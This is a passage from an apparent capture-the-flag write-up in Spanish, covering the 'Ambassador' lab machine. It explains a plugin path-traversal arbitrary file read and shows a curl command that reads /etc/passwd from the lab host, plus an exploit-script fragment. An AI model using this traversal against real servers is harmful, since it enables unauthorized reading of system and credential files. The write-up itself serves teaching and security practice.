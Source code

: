 ![](/assets/img/commons/Ambassador/exploit2.png)

## Arbitrary File Read Exploitation
en la primera imagen podemos visualizar que emplea una lista larga de plugins al respecto y en la segunda vemos como opción colocar algun plugin seguido de la ruta /public/plugins
```console
/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..
```
asi que primero para comprobar con curl mandaré una peticion al sitio web por GET a la ruta /public/plugins y eligré un plugin aleatorio de esa lista seguido del archivo al cual queremos apuntar para leer, haré la primera prueba con el /etc/passwd 
 
> Nota: importante al hacer el path traversal con curl contemplar el parámetro --path-as-is para poder especificar rutas en el sistema 

```console
curl -s -X GET http://10.10.11.183:3000/public/plugins/text/../../../../../../../../../../../../../etc/passwd --path-as-is
```